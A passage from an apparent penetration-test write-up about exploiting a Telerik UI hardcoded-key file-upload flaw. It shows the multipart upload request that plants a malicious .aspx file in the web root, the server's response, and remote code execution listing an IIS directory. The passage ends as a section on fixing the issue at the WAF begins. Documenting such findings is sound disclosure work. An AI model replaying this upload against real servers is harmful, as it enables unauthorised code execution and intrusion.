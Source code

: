     %>  
    </div>  
    </form>  
</body>  
</html>  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="fileName"  
​  
RAU\_crypto.bypass  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="contentType"  
​  
text/html  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="lastModifiedDate"  
​  
2019-01-02T03:04:05.067Z  
\-----------------------------62616f37756f2f  
Content-Disposition: form-data; name="metadata"  
​  
{"TotalChunks":1,"ChunkIndex":0,"TotalFileSize":1,"UploadID":"test\_109742195623.aspx"}  
\-----------------------------62616f37756f2f--

It is possible to notice that the application performs a request to the _"/Telerik.Web.UI.WebResource.axd?type=rau"_ endpoint attaching the malicious file and the _rauPostData_ parameter containing all the encrypted metadata required for Telerik to handle the uploaded file.

Since the _rauPostData_ parameter was encrypted with the hardcoded key of the 2014.2.724 Telerik version it accepts the unauthenticated upload as shown in the response to the previous request.

Response:

HTTP/1.1 200 OK  
Cache-Control: private  
Content-Type: text/html; charset=utf-8  
Date: Wed, 01 Apr 2020 10:48:50 GMT  
Connection: close  
Content-Length: 667  
​  
{"fileInfo":{"FileName":"RAU\_crypto.bypass","ContentType":"text/html","ContentLength":884,"DateJson":"2019-01-02T03:04:05.067Z","Index":0}, "metaData":"\[Base64 Metadata\]" }

Since the malicious ".aspx" was uploaded to a known folder in the web root of the application, it was then sufficient to recall the file with a URL of the application to execute the code. The following screenshot shows how the code prints the content of the "_C:\\Windows\\SysWOW64\\inetsrv_" directory belonging to the IIS Web Server that is hosting the vulnerable application.

[![](https://1.bp.blogspot.com/-8Q9p92TETp4/X6b3p76xc5I/AAAAAAAAAAU/FpIAUo_wJsQJ97r5RoAmKn7EH3a3PXiWQCLcBGAsYHQ/w493-h270/better.png)](https://1.bp.blogspot.com/-8Q9p92TETp4/X6b3p76xc5I/AAAAAAAAAAU/FpIAUo_wJsQJ97r5RoAmKn7EH3a3PXiWQCLcBGAsYHQ/s678/better.png)

####   
Fixing the Issue at WAF level

Once the criticality of the vulnerability was confirmed, the client was immediately contacted in order to speed up the fixing of the file upload.
